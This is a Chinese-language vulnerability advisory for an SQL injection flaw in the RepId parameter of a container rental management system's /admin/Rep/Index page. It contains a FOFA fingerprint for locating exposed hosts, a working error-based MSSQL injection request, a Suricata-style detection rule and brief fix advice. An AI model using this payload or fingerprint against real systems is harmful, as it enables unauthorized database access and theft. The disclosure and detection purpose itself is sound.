

# 玉帛软件租箱管理系统Index存在SQL注入漏洞

玉帛软件租箱管理系统Index存在SQL注入漏洞，攻击者可进行sql注入攻击获取数据库信息或者权限。

# 影响版本

玉帛软件租箱管理系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：icon_hash=-16307381

POC/EXP：

```
GET /admin/Rep/Index?RepId=x%27%20AND%201%3DCONVERT%28int%2C%28SELECT%20TOP%201%20name%20FROM%20sysobjects%20WHERE%20xtype%3D%27U%27%29%29-- HTTP/1.1
Host: 127.0.0.1
X-Requested-With: XMLHttpRequest
Accept: application/json
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"玉帛软件租箱管理系统 - /admin/Rep/Index RepId MSSQL报错注入 (CONVERT/sysobjects)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/admin/Rep/Index";
        fast_pattern;
    http.uri;
        content:"RepId=";
    http.uri;
        content:"CONVERT%28int"; nocase;
    http.uri;
        content:"sysobjects"; nocase; distance:0;
    http.uri;
        content:"xtype"; nocase; distance:0;
    metadata:
        service http,
        affected_product "玉帛软件 租箱管理系统",
        reference "CNVD-2026-33105",
        vulnerability_type "Error-based SQL Injection (MSSQL)",
        severity "high";
    classtype:web-application-attack;
    sid:1000779;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
